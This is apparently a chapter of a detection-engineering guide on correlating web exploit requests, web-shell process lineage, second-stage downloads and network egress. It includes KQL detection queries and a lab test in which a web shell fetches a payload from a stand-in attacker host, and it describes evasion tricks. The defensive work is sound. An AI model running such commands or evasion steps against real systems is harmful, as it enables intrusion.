


# Part 47 — Web Compromise Model

## Why this part exists

**[CONCEPT]** Part 16 owns the request layer: the shape of a malicious HTTP request and the
moment it becomes a successful exploit. Part 11 owns the analytic layer for everything that
happens on a host once code runs there: process lineage, LOLBins, persistence, credential theft.
Neither part, by design, owns the seam between them — the join that turns "a POST to
`/GponForm/diag_Form` matched a known-CVE path" (Part 16's `DET-16-01`) and "a web-server process
spawned a shell" (Part 16's `DET-16-04`, built on Part 11's lineage model) into one incident
narrative, and then carries that narrative out to the network egress an attacker needs to
download a second-stage payload or exfiltrate anything. This part introduces no new telemetry
source and re-derives no detection Parts 11 or 16 already built. Its entire job is the three
joins a real web compromise forces you to make: request-to-process (an HTTP request log has no
native field for a process ID), process-to-shell (a web shell's "session" is a sequence of
independent HTTP requests, not one continuous terminal), and process-to-network (which outbound
connection, on a host serving thousands of legitimate ones, belongs to the compromise).

The chain this part walks — request → app behaviour → child process → shell → download → network
— is also a chain of ownership handoffs. Holding the seams explicitly, rather than letting each
part's author silently assume the other part's job is done, is what stops this part from either
duplicating Part 11 and Part 16's detections or leaving a gap where their boundaries don't quite
meet.

---

## 1. Scope: the chain this part composes, and the boundary it holds

**[CONCEPT]** The table below states which part owns each stage's detection logic and what this
part adds on top — the join, not the underlying rule.

| Stage | Owning part | What Part 47 adds |
|---|---|---|
| Request | Part 16 (§§2–10, entirely) | Nothing — cited, not re-derived |
| App behaviour (request becomes execution) | Part 16 §6 (`DET-16-04` boundary) | The fileless-RCE variant of the same boundary (§3) |
| Child process | Part 11 §2 (lineage tiers) | The request-to-process entity-resolution problem (§4) |
| Shell | Part 11 §3 (LOLBAS/GTFOBins) | The non-interactive, per-request shell-access pattern unique to web shells (§5) |
| Download | Part 11 §3.2 (LOLBin download primitives) | A chained detection joining the shell-spawn event to the download event (`DET-47-01`, §6) |
| Network | Part 14 (C2, beaconing, egress) | The web-tier-specific egress baseline argument (§7) |

**[DETECTION ENGINEER]** Every join below relies on Entity Resolution in the sense TERMINOLOGY.md
defines it: reliably asserting that a request-log row, a process-creation event, and a
network-connection event all concern the *same compromise instance*, when the three events come
from three different log sources with three different native identifiers (a client IP and session
cookie; a PID and `ProcessGuid`; a five-tuple connection record) and no single field survives
across all three. Part 30 covers correlation-window mechanics in general; this part is the
worked example of why the general mechanics matter specifically at the web/host/network boundary,
where the entity key has to be *reconstructed* from timing and host identity rather than read off
a shared field.

> **Engineering Reality**
> None of the three joins in this part work unless the web tier's clock, the host EDR's clock,
> and the network sensor's clock all agree to within the correlation window you set — and Part 7
> already established that this assumption fails routinely in real environments (NTP drift,
> buffered log shipping, ingestion lag). A composite detection built across three telemetry tiers
> inherits the worst clock-skew behavior of whichever tier is least disciplined about time sync,
> not the best.

---

## 2. Stage 1 — Request: recap without re-deriving

**[ANALYST]** The request stage is Part 16's, in full. `DET-16-01` (known-CVE exploit-path
requests, Part 16 §8) and the SQL-injection, path-traversal, SSRF, and file-upload signatures in
Part 16 §§2–6 are the request-layer triggers this part's chain begins from. If a request-layer
alert is open and you're trying to decide whether it warrants escalation past a single logged
attempt, Part 16 §8's `HUNT-16-01` — the finding that `exploit_attempt` and `possible_success`
produce an *identical* single request-layer signal, and only continued activity from the same
source distinguishes them — is the reasoning this part's escalation logic in §8 below builds on
directly.

This part does not restate the injection mechanics, the SSRF metadata-theft pattern, or the
credential-stuffing signal from Part 16 — read that part first if any of those are unfamiliar.
What matters here is only the *output* of that stage: a request-log row, timestamped, with a
source IP and (where captured) a session identifier, that Part 16's own logic has already flagged
as exploit-shaped.

---

## 3. Stage 2 — App behaviour: from request to code execution

**[CONCEPT]** Part 16 §6.1 dissects the naive "unsigned process spawned by the web server is
malware" rule and hands its corrected replacement — `DET-16-04`, a web-server binary spawning a
shell or script interpreter — to Part 11 to own as a process-lineage detection. That handoff
assumes the exploit *writes a file* the OS then executes: the classic uploaded-PHP-webshell path.
A meaningful fraction of real web exploitation doesn't take that path at all.

**[DETECTION ENGINEER]** Deserialization vulnerabilities and template-injection RCE (the technique
class behind incidents like Log4Shell and several Apache Struts CVEs) can hand an attacker code
execution *inside the running application process's memory*, with no file ever written to disk
before the first malicious command runs. `DET-16-04` still catches this case, and it's worth
stating plainly why: the detection is built on the *parent-child process relationship*
(`ParentImage` = a web-server binary, `Image` = a shell or interpreter), not on the presence of an
uploaded file. A fileless deserialization RCE that spawns `/bin/bash` as a direct child of the
Java process running the vulnerable servlet container produces the exact same lineage signature as
a dropped PHP web shell spawning `/bin/sh` from `php-fpm`. This is the payoff of Part 11 §2's
argument that lineage, not artifact inspection, is the durable signal: it transfers cleanly across
an attack-vector distinction (file-based vs. fileless RCE) that a file-integrity-monitoring-based
detection would have missed by construction.

> **Blind Spot**
> `DET-16-04`'s lineage signal only fires if the exploited application actually spawns an OS
> process. Some RCE primitives — an in-JVM deserialization gadget chain that never calls
> `Runtime.exec()` or an equivalent OS-process API, and instead directly manipulates application
> state (reading a file the JVM already has a handle to, modifying an in-memory object) — produce
> no process-creation event at all, on either the web or host tier. This class is closer to a
> memory-corruption or logic-abuse problem than a process-lineage one, and needs application-level
> instrumentation (Part 20's audit-trail model, applied to the web application itself rather than
> an AI system) to see at all.

---

## 4. Stage 3 — Child process: bridging the web tier and the host tier

**[DETECTION ENGINEER]** Once a web-server process spawns a shell, the next practical problem is
proving that *this specific* process-creation event corresponds to *that specific* request-log
row a Tier-1 analyst is already looking at, rather than an unrelated, benign process the same web
server spawned thirty seconds earlier for a different visitor. Three architectures produce three
different entity-resolution problems:

- **One process per request** (classic CGI, some serverless/function-invocation models): the
  process's own start time is tightly bound to one request, so a narrow timestamp join is
  reasonably reliable.
- **One process (or a small pool) serving many requests over its lifetime** (Apache with `mod_php`,
  most application-server deployments, IIS worker processes serving many requests before
  recycling): the *parent* process (`php-fpm`, `w3wp.exe`, the Java servlet container) persists
  across thousands of requests, so a timestamp join at the parent-process level tells you nothing
  about which request triggered a given child spawn — you need the *child's* creation timestamp,
  correlated tightly to the request that caused it, not the long-lived parent's.
- **A dedicated worker forked per request under load** (PHP-FPM's own worker pool, some
  containerized deployments that spin up a short-lived handler per invocation): closer to the
  first case, but the worker's start time may still precede the specific request that compromised
  it by an observable, non-trivial amount under load.

> **Detection Autopsy — "join web request to process create by matching timestamps to the minute"**
>
> **The rule:** Correlates a Part 16 request-layer alert to a Part 11 process-creation event by
> matching `Timestamp` (web log) to `Timestamp` (process-creation log) truncated to the same
> minute, on the same host.
>
> **Why it shipped:** It's a one-line join condition, it demos perfectly against a lab where both
> logs are generated on the same clock within the same second, and "same host, same minute" reads
> as an obviously sufficient filter to a reviewer who hasn't hit real cross-tier clock skew yet.
>
> **How it failed:** Log shipping introduces asymmetric delay between tiers — a WAF or reverse
> proxy commonly buffers and forwards access logs in batches every 10–60 seconds, while an EDR
> agent forwards process-creation events closer to real time, so the same underlying event pair
> can legitimately land in different one-minute buckets even on perfectly synchronized clocks. Add
> ordinary NTP drift (a few seconds is common, more on a host that's fallen out of sync) and the
> minute-bucket join both misses true matches that straddle a minute boundary and, on a busy web
> tier, matches unrelated request/process pairs that happen to fall in the same bucket by chance.
>
> **The fix:** Widen the join to a bounded window generous enough to absorb realistic log-shipping
> lag for your specific pipeline (measure it — don't guess; Part 7 covers how to establish that
> figure for your own environment), scope the join to the same host identifier as a hard
> requirement rather than a scoring input, and treat the process-creation event's own lineage tier
> (Part 11 §2.2 — Suspicious or Highly Suspicious) as the second required condition, not the
> timestamp proximity alone. A generously-windowed join against a Highly Suspicious lineage event
> is a usable signal; the same window against *any* child process the web server spawns is not.

> **Hunter's Note**
> When you don't have a native join key between the web log and the process log — no shared
> request ID, no session cookie surfaced on the host side — the fastest working pivot isn't the
> timestamp at all, it's the *source port* on the web server's accepted TCP connection, if your
> web-server access log captures it and your host-side network telemetry — Sysmon Event ID 3
> (Network Connection) — captures it too. A client source IP plus source port uniquely identifies one TCP
> connection for its duration, and a short-lived web-server worker's own network-connection record
> plus its process-creation timestamp gets you closer to a real join than timestamp-bucketing ever
> will. Not every stack surfaces this field cleanly — check before assuming it's there.

> **Blind Spot**
> All three entity-resolution models above assume the request-log row and the process-creation
> event being joined name the same physical or logical host. That assumption breaks the moment a
> load balancer or reverse proxy sits in front of more than one backend instance — the normal
> architecture for anything beyond a single-server deployment — because the access log is
> frequently generated at the LB/WAF tier and records the LB's own hostname or IP, not the backend
> pool member that actually served the request and spawned the process. Without a field that
> explicitly identifies the serving backend on the request-log side (a backend-instance header the
> load balancer injects, or per-backend log segregation), the join this section builds has no
> reliable host key at all, no matter how generously the time window is sized. Confirm your load
> balancer's access-log configuration actually surfaces backend-instance identity before treating
> "same host" as a solved requirement rather than its own open dependency.

---

## 5. Stage 4 — Shell: LOLBin pivot and non-interactive execution

**[THREAT HUNTER]** Part 11 §3 catalogs the LOLBAS and GTFOBins patterns an attacker reaches for
once they have a shell. A web shell changes *how* that shell gets used, not which binaries get
abused: a reverse shell or an interactive PTY session is one continuous process tree an attacker
drives in real time, while a web shell is stateless by construction — each attacker command
arrives as a separate HTTP request, and the web-server worker spawns a separate, short-lived child
process per command, often with no persistent shell process at all between requests.

This distinction changes what the correlation window in §4 actually needs to cover. An
interactive reverse shell produces one lineage event to classify. A web-shell-driven session that
runs ten commands over fifteen minutes produces ten separate `ParentImage`-is-web-server →
`Image`-is-shell-or-interpreter events, each individually indistinguishable from the single-event
case Part 16 §6.1's corrected rule targets, but collectively a much stronger signal — the same
distinction Part 16's own `HUNT-16-01` drew between a one-shot `exploit_attempt` and a
`possible_success` session with continued activity, now expressed one layer deeper, at the process
tier instead of the request tier.

**[DETECTION ENGINEER]** Practically: don't tune `DET-16-04` down because "it already fired once
for this host" — a repeat firing from the same web-server parent process within a short window,
each with a *different* command line, is the strongest available signal that this is an
interactive web-shell session rather than a single successful-but-abandoned exploit attempt, and
should raise priority (per TERMINOLOGY.md's Priority definition) rather than being suppressed as
duplicate noise. **MITRE:** T1505.003 (Server Software Component: Web Shell) is the technique this
entire stage targets — Part 16 §6 tags the same technique where the shell is first dropped or
invoked; this section's contribution is the detection-side consequence of its non-interactive,
per-request execution model, not a second technique.

> **False Positive Trap**
> A legitimate CGI-era application or a healthcheck script that genuinely shells out repeatedly as
> part of normal request handling (Part 16 §6.1's `filter_known_helpers` allowlist exists exactly
> for this) will also produce repeated `ParentImage`-is-web-server events. The distinguishing
> factor from a web shell is command-line *diversity*: a legitimate helper script invocation
> repeats the same, or a small fixed set of, command lines; a web-shell operator's commands vary
> request to request because they're doing reconnaissance and privilege escalation, not running
> the same maintenance task on a schedule. Threshold on distinct command-line shape per web-server
> parent process in a window, not on repeat-count alone.

> **Blind Spot**
> The command-line-diversity threshold assumes the attacker puts variable content directly in the
> spawned process's argv. A web-shell backend that stages the actual command in the POST body, an
> environment variable, or a temp file, then always spawns the same static wrapper to run it
> (`sh -c "$(cat /tmp/.c)"`, or reading the command from stdin) produces an identical
> `ProcessCommandLine` on every request — indistinguishable from the legitimate fixed-command
> helper script this box is trying to rule out. Staging attacker input outside argv specifically to
> defeat command-line-based detection is a known technique, not a hypothetical; don't rely on
> command-line diversity alone as the discriminator. Pair it with the repeat-firing volume and the
> lineage tier `DET-16-04` already requires, and treat a *consistently static* command line from a
> web-server-lineage shell as its own suspicious pattern worth a look, not automatic reassurance
> that it's benign.

---

## 6. Stage 5 — Download: second-stage payload retrieval

**[DETECTION ENGINEER]** A web shell frequently isn't the final payload — it's the foothold used
to pull down something larger: a proper C2 implant, a privilege-escalation tool, a credential
dumper. Part 11 §3.2's LOLBin download-primitive table (`certutil.exe -urlcache`, `bitsadmin.exe
/transfer`, `curl`/`wget` piped to a shell) is the mechanism catalog; what's new at this stage is
that the *parent* of the download command is no longer an interactive user's shell — it's the
child (or grandchild) of the web server itself, which narrows the legitimate-use population
sharply compared to the same download command running on a general-purpose Linux fleet host.
**MITRE:** T1105 (Ingress Tool Transfer) is the primary mapping — the download primitive shared by
every LOLBin in this rule's list (`certutil.exe`, `bitsadmin.exe`, `curl`, `wget`); `bitsadmin.exe`'s
transfer mechanism specifically also maps to T1197 (BITS Jobs). None of the four carries its own
T1218 (System Binary Proxy Execution) sub-technique: per Part 11 §3.2, T1218 belongs to
`mshta.exe`, `regsvr32.exe`, and `rundll32.exe`, not to the download-primitive binaries this rule
watches for — tagging T1218 here would be exactly the tenuous, invented mapping Part 11 §3.2 and
STYLE-GUIDE.md §5 warn against.

**DET-47-01 — Web-server-lineage shell followed by a LOLBin download, same host, bounded window.**
This is a chained detection: it does not re-implement `DET-16-04` or Part 11's LOLBin download
signal — it correlates a firing of one against a firing of the other, on the same host, inside a
window sized per the Detection Autopsy in §4.

The following illustrative query targets a Defender-for-Endpoint-style Advanced Hunting schema in
Sentinel; treat it as **CONCEPTUAL SAMPLE** — the join logic is real, the table and field names
follow common Microsoft 365 Defender conventions but haven't been replayed against a live
workspace or a stored false-positive corpus.

```kql
// CONCEPTUAL SAMPLE -- illustrative chained detection joining a web-server-lineage
// shell spawn (DET-16-04's pattern) to a subsequent LOLBin download by the same
// process subtree, on the same host. Field names follow Defender Advanced Hunting
// conventions; not validated against a live workspace.
let window = 10m;
let webServerBinaries = dynamic(["apache2","httpd","nginx","php-fpm","w3wp.exe"]);
let shellBinaries = dynamic(["sh","bash","dash","cmd.exe","powershell.exe"]);
let lolbinDownloaders = dynamic(["certutil.exe","bitsadmin.exe","curl","wget"]);
DeviceProcessEvents
| where InitiatingProcessFileName in~ (webServerBinaries)
    and FileName in~ (shellBinaries)
| project ShellSpawnTime = Timestamp, DeviceName, ShellProcessId = ProcessId,
          ShellCommandLine = ProcessCommandLine
| join kind=inner (
    DeviceProcessEvents
    | where FileName in~ (lolbinDownloaders)
        and (ProcessCommandLine has "-urlcache" or ProcessCommandLine has "/transfer"
             or ProcessCommandLine contains "http")
    | project DownloadTime = Timestamp, DeviceName, DownloaderCommandLine = ProcessCommandLine,
              InitiatingProcessId
) on DeviceName
| where DownloadTime between (ShellSpawnTime .. (ShellSpawnTime + window))
| project DeviceName, ShellSpawnTime, ShellCommandLine, DownloadTime, DownloaderCommandLine
```

This query's main limitation, stated directly: it joins on `DeviceName` and a time window rather
than a direct parent-child process-ID chain from the shell to the downloader, because the
downloader may be one or two process generations removed from the shell `DET-16-04` flagged
(a shell spawning a second script that then invokes `curl`, for instance). A tighter version that
walks the actual process-ancestry chain (via `InitiatingProcessParentId` or an EDR's own lineage
field) is stronger where that field is reliably populated, and should replace the host-plus-window
join wherever it's available — see the False Positive Trap below for why the looser join still has
a role.

> **Blind Spot**
> `webServerBinaries` and `shellBinaries` are both hardcoded allowlists, and either one going stale
> defeats the query with no error and no empty-result warning. A Linux web tier running on Alpine
> containers spawns `ash` (BusyBox's shell), not `bash` or `dash` — absent from the list. A shell
> spawned via PowerShell 7 (`pwsh`, increasingly common on Linux app servers) or an attacker who
> skips the shell entirely and has the web-shell backend invoke `python3 -c` or `perl -e` directly
> also produces a `FileName` this query never checks, even though `DET-16-04`'s underlying
> parent-child lineage signal still fired underneath it. Renaming the interpreter binary before
> exec (`cp /bin/bash /tmp/.x; /tmp/.x -c ...`) defeats the `FileName in~ (shellBinaries)` match the
> same way, since the query matches the on-disk filename at execution time, not the binary's
> identity. Treat both lists as a starting point to populate from your own environment's actual
> process tree, not a fixed catalog — and where your EDR exposes it, prefer a negative check ("this
> child is not one of the web app's own known-legitimate children") over a positive allowlist of
> interpreter names, since the negative form degrades more gracefully as attackers rotate tools.

> **False Positive Trap**
> A production web-tier host is one of the few places in a typical fleet where the general "curl
> piped to a shell is routine automation" false-positive driver from Part 11 §3.3 is genuinely
> weaker: configuration-management and CI/CD tooling that legitimately runs install-and-pipe
> patterns usually targets application servers *during deployment windows*, not continuously
> during normal serving. Scope `DET-47-01` to exclude your known deployment/CM tooling's service
> account and, where you can get it, your deployment pipeline's own change window — but don't
> widen the exclusion to "any curl invocation on a web-tier host," since that's exactly the
> narrower, higher-signal population this detection depends on to be worth running as a chained
> rule instead of two independent, noisier atomic ones.

With the CM/CI-CD exclusion in place, expect `DET-47-01` to fire rarely on a healthy web tier —
low single digits per month on a fleet of a few dozen hosts outside deployment windows — precisely
because it requires two independently rare conditions (a web-server-lineage shell spawn, then a
LOLBin download from that same host within the window) to both be true. Treat every firing as
worth a full Tier-2 look, not a bulk-triage pass; a rule this narrow that starts firing daily is
itself a signal something changed (a new legitimate deployment pattern, or a real intrusion), not
noise to suppress.

> **Detection Test**
> **Setup:** Linux test host running Apache or Nginx with process-creation telemetry (Sysmon for
> Linux or equivalent EDR agent), no production traffic. Reuse the web-shell drop from Part 16
> §6.1's Detection Test.
> **Action:** `curl "http://lab-host/shell.php?c=curl+http://attacker-host/stage2.sh+-o+/tmp/s.sh"`
> **Expected result:** A `DeviceProcessEvents` (or Sysmon Event ID 1 — Process Create) pair on the same `DeviceName`
> within the 10-minute window: a shell (`Image` ending in `/sh` or `/bash`) with `ParentImage`
> ending in `/apache2` or `/nginx`, followed by a `curl` invocation with `http` in the command
> line, joined by the query above into a single `DET-47-01` result row.

---

## 7. Stage 6 — Network: egress, C2, and exfiltration

**[CONCEPT]** Part 14 owns beaconing, C2-channel detection, and exfiltration signal at the network
tier in general; this part's contribution is narrower and specific to the web-compromise chain: a
production web-server role has a materially tighter legitimate egress footprint than a general
user endpoint, which is exactly the kind of role-scoped baseline Part 31 argues for building
rather than a single fleet-wide model. A web server's outbound connections, in a healthy
environment, go to a small, stable set of destinations — a database, a cache layer, a package
mirror during deployment, maybe a license or telemetry endpoint — and essentially never to
arbitrary internet hosts a user's browser might reach in the course of ordinary browsing. That
narrower baseline is what makes "new destination from a web-tier host" a comparatively
high-confidence signal, where the identical rule on a general endpoint fleet would need much
heavier tuning against normal user browsing variety.

**[DETECTION ENGINEER]** **DET-47-02 — New or rare outbound destination from a web-tier host,
following a Suspicious-or-higher lineage event.** Combines the lineage-tier output of Part 11
§2.2's classification model with a role-scoped rarity check (per Part 31's baselining mechanics)
on the destination the host connects to afterward. **MITRE:** T1071.001 (Application Layer
Protocol: Web Protocols) where the egress mimics ordinary HTTP/S traffic to blend in, T1041
(Exfiltration Over C2 Channel) where the same channel carries data out rather than a payload in.

> **Blind Spot**
> This detection assumes you can observe the web server's own egress at the network tier — true
> for a host with a local agent — Sysmon Event ID 3 (Network Connection) — or one whose traffic
> transits a monitored chokepoint. It is not true by default for a web tier running on a managed PaaS or behind a CDN
> and load balancer where the network telemetry you actually have visibility into is the LB's or
> CDN edge's connections, not the origin server's own outbound traffic — Part 16 §6 (the Hunter's
> Note under `DET-16-04`) already flags the managed-hosting process-telemetry gap for the host
> tier; the same gap applies one tier over,
> to network egress, and for the same underlying reason (you don't control, or can't instrument,
> the infrastructure layer beneath the application). Even with full origin-server visibility, this
> rarity check also has nothing to say about DNS-based exfiltration or C2 — T1071.004 (Application
> Layer Protocol: DNS) and T1048.003 (Exfiltration Over Unencrypted/Obfuscated Non-C2 Protocol). If
> the outbound channel is a sequence of DNS queries to the environment's own configured resolver,
> the "destination" this rule scores for rarity is the resolver's IP — a stable, always-known
> destination — not the attacker-controlled domain encoded in the query name, so the exfiltration
> is invisible to `DET-47-02` no matter how well-instrumented the host is. That pattern is Part
> 14's DNS-tunneling detection surface, not this rule's — a clean `DET-47-02` result does not imply
> DNS-channel coverage it was never built to provide.

> **Engineering Reality**
> IMDS-targeting SSRF (Part 16 §5, Part 11 §4.5) is the clearest case where this part's Stage 6
> and Part 11's cloud-credential-theft detection are really the same event seen from two placements
> in the pipeline: the outbound request *to* `169.254.169.254` is the web-tier egress signal this
> section covers, and the *subsequent* cloud-API calls made with the stolen credential are Part
> 11 §4.5's detection surface. Neither placement alone tells the full story — the metadata-service
> hop itself never appears in CloudTrail (IMDS calls aren't API calls), so the web-tier egress log
> is the *only* place the initial theft is visible at all, which is the strongest single argument
> in this part for keeping host and network egress telemetry correlated rather than treating
> either as sufficient on its own.

> **False Positive Trap**
> A code deploy that adds a genuinely new legitimate outbound dependency — a new SaaS API, a
> package registry the build didn't previously reach, a new payment or logging endpoint — is
> indistinguishable from a compromise-driven new destination on the very first connection, because
> "new" is exactly what both have in common. Cloud-provider IP churn behind a load balancer or CDN
> makes this worse: a destination *hostname* the host has talked to for months can present a *new
> IP* after the provider rotates its edge, tripping a raw-IP rarity check against a perfectly
> routine, unchanged relationship. Baseline and alert on the resolved destination (domain/ASN),
> not the raw IP, wherever DNS or TLS SNI is available on the egress record, and pair every
> `DET-47-02` firing with the lineage-tier condition (Suspicious-or-higher) rather than running the
> rarity check standalone — a new destination with no preceding lineage event is a change-management
> question, not a `DET-47-02` alert.

**[DETECTION ENGINEER]** `DET-47-02`'s rarity check also inherits the cold-start problem Part 31
§2 describes for any entity baseline: a freshly provisioned host, or one just added to the
web-tier role group, has no baseline history yet, so every destination it reaches looks "new."
Fielding the rule against a host in its first baseline window either floods the queue with
legitimate first-connections or — if you suppress alerts during that window to avoid the flood —
creates exactly the blind spot an attacker who compromises a host during its provisioning window
would walk through unseen. Decide and document which failure mode you're accepting for that
window; don't let it default silently to whichever the baseline tooling happens to do out of the
box.

Unlike `DET-47-01`'s two independently-rare atomic conditions, `DET-47-02`'s honest false-positive
rate depends heavily on how well the CM/CI-CD exclusion and domain/ASN-level baselining above are
actually implemented: with both in place and past the cold-start window, expect an occasional
handful of firings per month per few dozen web-tier hosts, driven mostly by legitimate new
dependencies the deploy exclusion didn't cover. Without domain/ASN-level baselining — i.e.,
alerting on raw IP instead — expect this to be substantially noisier, since every CDN or
cloud-provider IP rotation behind an unchanged hostname becomes a false positive, and the rule
stops being worth running as a Suspicious-or-higher-gated signal at all. Treat a `DET-47-02` firing
rate that climbs over successive weeks with no corresponding change in deployment cadence as itself
worth investigating, not tuning noise to suppress.

> **Detection Test**
> **Setup:** Test host provisioned into the same role/baseline group as a production web tier, with
> at least the minimum observation window Part 31's baseline table requires already elapsed, plus
> Sysmon Event ID 3 (Network Connection) or equivalent `DeviceNetworkEvents` telemetry.
> **Action:** From a process already classified Suspicious-or-higher under Part 11 §2.2 (reuse
> `DET-47-01`'s Detection Test above to produce one), run `curl http://<an-ip-outside-the-role-baseline>`.
> **Expected result:** A `DeviceNetworkEvents`/Sysmon Event ID 3 record showing a connection to a
> `RemoteIP` absent from the host-role's baseline, timestamped after the qualifying lineage event
> and within the correlation window, correlated into a `DET-47-02` result.

---

## 8. Worked case study: composing the full chain

**[DETECTION ENGINEER]** Part 16 §8's `FIG-16-02` and `FIG-16-03` captured a real, unsolicited
POST to `/GponForm/diag_Form` — the GPON router authentication-bypass RCE path (CVE-2018-10561 /
CVE-2018-10562) — against a honeynet decoy on CT103 in the author's home lab, and the honeynet
platform's own correlation logic flagged three separate sessions from the same source,
`16.5.0.236`, at `00:18:26`, `03:25:42`, and `06:08:21` UTC on 2026-09-15, each tagged
`possible_success` because the source returned and kept interacting with the decoy after the
initial exploit-shaped request.

**Figure 47.1 (FIG-47-01) — Recurring-source session pattern, real evidence.** *REAL LAB EXAMPLE.*
Three `attack_sessions` entries from the same source IP (`16.5.0.236`) against the same internal
decoy address (`10.99.99.10`) across roughly six hours on 2026-09-15, from CT103's honeynet
correlation table (see `lab/evidence/ct103-honeynet-correlated-attack-sessions.txt` for the full
capture — the same underlying data Part 16 §8 draws its `HUNT-16-01` finding from). This shows the
repeated-return pattern real evidence, not the downstream host/network stages, since this decoy
has nothing a GPON-style exploit could actually compromise — see the note below.

```text
session_id     source_ip     first_seen (UTC)      status            notes
36593979...    16.5.0.236    2026-09-15T00:18:26Z  possible_success  exploit attempt, followed by continued activity
a9644f74...    16.5.0.236    2026-09-15T03:25:42Z  possible_success  exploit attempt, followed by continued activity
d48b795e...    16.5.0.236    2026-09-15T06:08:21Z  possible_success  exploit attempt, followed by continued activity
```

Part 16's own `FIG-16-04` labeled the honeynet's next escalation tier, `confirmed_postexploit`, as
requiring "host/network corroboration — Part 11/14" and left that as a forward reference. This is
that reference, made concrete: `confirmed_postexploit` corroboration is exactly what `DET-47-01`
(§6) and `DET-47-02` (§7) are built to supply — a process-lineage event on the target host,
correlated by the join logic in §4, plus an egress-baseline deviation from that host afterward.
The honeynet decoys in this lab do not run host-level EDR instrumentation, so no such
corroboration exists or is claimed for these three real sessions — a genuine visibility gap
(Telemetry Coverage, per TERMINOLOGY.md, that never got built for the honeynet's own decoy hosts),
not a finding that no compromise occurred. `16.5.0.236` never actually reached a vulnerable GPON
application on this decoy, because the decoy isn't one.

**What follows is an illustrative construction**, not a capture of any real incident: it walks a
hypothetical instance of the same request pattern landing against an actually-vulnerable target
with full host and network instrumentation deployed, to show how §§3–7's joins compose end to end.
Compare directly against Part 11 §8's own worked case study (phishing document → ransomware
precursor) — that chain starts from a different entry vector (a user opening an attachment) but
lands in the identical host-tier territory (LOLBin download, persistence, credential access) this
chain reaches by Stage 5.

**Figure 47.2 (FIG-47-02) — Illustrative full-chain sequence, request through network egress.**
*CONCEPTUAL.* Sequences the six stages from §1's table into one hypothetical timeline, built from
the real Stage 1 request pattern in Figure 47.1 plus an illustrative continuation through the
stages this specific decoy never actually reached. Not a capture of any real incident.





The following illustrative query composes all three tiers into one candidate `confirmed_postexploit`
escalation rule — the honeynet platform's own state machine (Part 16 `FIG-16-04`) gestures at this
exact join without implementing it, since the decoys carry no host telemetry. **CONCEPTUAL
SAMPLE** — invented field names spanning a web-log table, a Defender-style process table, and a
network-connection table; illustrates the join shape only.

```kql
// CONCEPTUAL SAMPLE -- illustrative three-tier join: web-layer exploit-shaped request
// (WafLogs, same invented schema as Part 16 Section 5) -> host-layer web-server-lineage
// shell spawn (DeviceProcessEvents) -> network egress to a new destination for the
// host's role (DeviceNetworkEvents). Deliberately simplified to three tiers for
// readability: it omits the LOLBin-download join DET-47-01 (Section 6) adds between
// the shell and the network hop -- chain that in explicitly if your escalation logic
// needs the download event as its own required condition. Not validated against a
// live workspace.
let window = 15m;
WafLogs
| where RequestUri has "/GponForm/diag_Form" or ExploitPathMatch == true   // DET-16-01
| project RequestTime = Timestamp, DeviceName, SourceIp
| join kind=inner (
    DeviceProcessEvents
    | where InitiatingProcessFileName in~ ("apache2","httpd","nginx","php-fpm")
        and FileName in~ ("sh","bash")
    | project ShellTime = Timestamp, DeviceName
) on DeviceName
| where ShellTime between (RequestTime .. (RequestTime + window))          // Section 4 join
| join kind=inner (
    DeviceNetworkEvents
    | where RemoteIpType == "Public" and IsKnownWebTierDestination == false  // DET-47-02
    | project EgressTime = Timestamp, DeviceName, RemoteIP
) on DeviceName
| where EgressTime between (ShellTime .. (ShellTime + window))
| project DeviceName, SourceIp, RequestTime, ShellTime, EgressTime, RemoteIP
```

> **What Would Change My Mind**
> This case study treats the honeynet's own three-session recurrence from `16.5.0.236` as evidence
> the source is a persistent, motivated actor worth escalation priority, on the strength of it
> returning three separate times against the same decoy in six hours. If a broader review of the
> honeynet's full session history showed this exact recurrence cadence — three touches, several
> hours apart, against the same target — is typical of mass internet-wide scanning infrastructure
> re-sweeping its own target list on a fixed schedule (rather than one operator manually
> returning), the priority this section implicitly assigns to `16.5.0.236` would need to drop back
> toward Part 16's own `exploit_attempt` baseline, and the recurrence signal itself would need
> reclassifying as an artifact of scanner cadence rather than attacker persistence.

---

## 9. Coverage summary and forward references

**[SOC MANAGEMENT]** `DET-47-01` and `DET-47-02` are composite detections in the strict sense: each
one degrades silently to whichever atomic Part 11 or Part 16 rule fired if the *other* tier's
telemetry isn't actually flowing — a chained rule built on top of two working atomic rules is not
itself resilient to either one going dark, and a coverage claim for this part needs to name the
dependency explicitly (per Part 41's six-tier model, these composite rules cap out at
MULTI-SOURCE DETECTION only for as long as both source tiers stay live, and silently drop to
whatever single-source tier the surviving telemetry supports the moment one doesn't). Reporting
"web compromise: covered" from this part's rules alone, without checking that both Part 11's host
agent and Part 16's request-layer logging are both actually deployed and healthy on the hosts in
question, reproduces exactly the Visibility Debt pattern TERMINOLOGY.md warns about — a rule that
exists on paper contributing nothing the day the telemetry under it goes quiet.

Operationally, the composite rule's own firing count cannot serve as its own health signal —
zero firings is the expected, correct steady state for both `DET-47-01` (§6's honest low-single-
digits-per-month baseline) and `DET-47-02` outside deployment churn, so a silent break upstream
produces exactly the same zero-count output as a healthy, quiet month. Detecting that break
requires monitoring the *inputs* independently of the composite rule: track the underlying atomic
rules' own firing rates (`DET-16-04`'s lineage events and Part 11's LOLBin-download signal for
